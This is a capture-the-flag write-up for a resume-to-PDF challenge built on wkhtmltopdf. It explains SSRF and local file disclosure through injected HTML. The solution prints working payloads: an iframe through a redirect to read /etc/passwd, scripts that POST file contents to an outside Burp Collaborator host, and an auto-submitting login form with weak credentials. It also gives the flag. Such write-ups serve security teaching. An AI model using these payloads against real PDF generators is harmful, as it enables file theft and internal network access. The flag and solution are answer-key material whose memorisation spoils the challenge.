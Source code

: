 # Resume

### Challenge Details

This challenge is testing on SSRF(I personally think it is much more than a SSRF, just imagine a scenario where a browser reside in the internal network is executing arbitrary HTML/JS file you feed it). 

A resume generator website, user can enter their personal details, backend will generate a HTML resume template and call `wkhtmltopdf` to generate the PDF file from that HTML resume. 

In the older version of wkhtmltopdf(prior of the latest 12.6, refer to [wkhtmltopdf/wkhtmltopdf#4536](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/4536) ), it is vulnerable to local file disclosure. 

I am hosting another website locally, its domain will be resolved via /etc/hosts. This website requires login, but common parameters and weak credentials are being used. Player needs to craft an auto-submitting form to login to the website to get the flag.

### Setup Instruction

```
docker-compose up -d
# optional
add a cronjob to delete the generated pdf every 5 minutes.
```

### Possible hints

> Have you checked what is being used to generate pdf?

> Have you checked commons files on the Linux file system?

> sometimes a single point of failure might just arise from a weak credential.

### Key concept

- 302 redirect usage in SSRF
- XSS techniques to read content.

- XSS techniques to automate form submission

### Solution

##### Read file

This will not work:

```html
<iframe src="file:///etc/passwd"></iframe>
```

But this will work:

```html
<iframe src="https://yourownwebsite/ssrf.php?a=file:///etc/passwd"></iframe>
```

when visiting `https://yourownwebsite/ssrf.php?a=file:///etc/passwd`, you will get a 302 response redirecting to `file:///etc/passwd`, and the contents of `/etc/passwd` will be inside the generated PDF.

------

Another way is to use XMLHTTPRequest, this would work probably because SOP is guaranteed in the process of generating the PDF, hence the content can be retrieved.

```html
<script>
    x = new XMLHttpRequest;
    x.onload = function(){
    y = new XMLHttpRequest;
    y.open('POST', "http://0vwlcrnm27hbj5zyz8kugdcshjn9by.burpcollaborator.net/", true);
    y.setRequestHeader("Content-Type","text/plain");
    y.send(this.responseText);
    };
    x.open("GET","file:///etc/passwd");
    x.send();
</script>
```

#####  Found a local website

```
<script>
    x = new XMLHttpRequest;
    x.onload = function(){
    y = new XMLHttpRequest;
    y.open('POST', "http://0vwlcrnm27hbj5zyz8kugdcshjn9by.burpcollaborator.net/", true);
    y.setRequestHeader("Content-Type","text/plain");
    y.send(this.responseText);
    };
    x.open("GET","file:///etc/hosts");
    x.send();
</script>
```

```
127.0.0.1 topsecret.local
```

##### Get the flag

Directly curling with modified Host header to the server would not work because I check for `$_SERVER['REMOTE_ADDR']`, only serve the request if `$_SERVER['REMOTE_ADDR'] === "127.0.0.1"`

Need to let wkthmltopdf to request for us

```
<iframe src="http://topsecret.local" width=600 height=600> </iframe>
```

And it's just a simple login form, with weak credentials being used. Craft a auto-submitting form will give you the flag

```html
<form id='asdf' action="http://topsecret.local" method="POST">
<input name='username' value='admin'>
<input name='password' value='admin'>
<form>
<script>
document.getElementById('asdf').submit();
</script>
```

### Learning objective

the same as key concepts?

### Flag

```
greyhats{7h12_12_MOr3_7HaN_AN_55rf}
```


